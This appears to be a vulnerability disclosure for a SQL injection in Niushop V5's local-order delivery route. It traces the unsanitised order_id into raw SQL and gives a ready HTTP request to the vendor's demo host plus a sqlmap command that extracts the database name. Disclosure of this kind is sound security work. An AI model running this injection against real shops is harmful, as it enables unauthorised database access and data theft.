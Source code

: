 Niushop V5 has a SQL injection vulnerability.

Official website: https://gitee.com/niushop-team/niushop_b2c_v5#https://gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616](https://gitee.com/niushop-team/niushop_b2c_v5#https:/gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616

Version: V5

Route: /shop/localorder/delivery.html

Injection parameters: order_id

#### 1.Vulnerability analysis

niushop_b2c_v5-master/niushop/app/model/order/LocalOrder.php
In the orderGoodsDelivery function, the native SQL statement concatenates $order_id.

Click in to track the function, niushop_b2c_v5-master/niushop/app/shop/controller/Localorder.php calls this method.

Construct a data packet to trigger the function (save as post.txt).

```
GET /shop/localorder/delivery.html?order_id=1*&deliverer=2&deliverer_mobile=1 HTTP/2
Host: uniapp.v5.niuteam.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 0
Origin: https://uniapp.v5.niuteam.cn
Referer: https://uniapp.v5.niuteam.cn/shop.html
Cookie: think_lang=zh-cn; PHPSESSID=b85fe59b153b7c2539fc0188bed22f38
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

```

#### 2.Vulnerability verification and exploitation

Replace the cookie in post.txt after login

sqlmap --batch --tamper=space2comment -r post.txt --current-db

![image-20250218150440806](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250218150440806.png)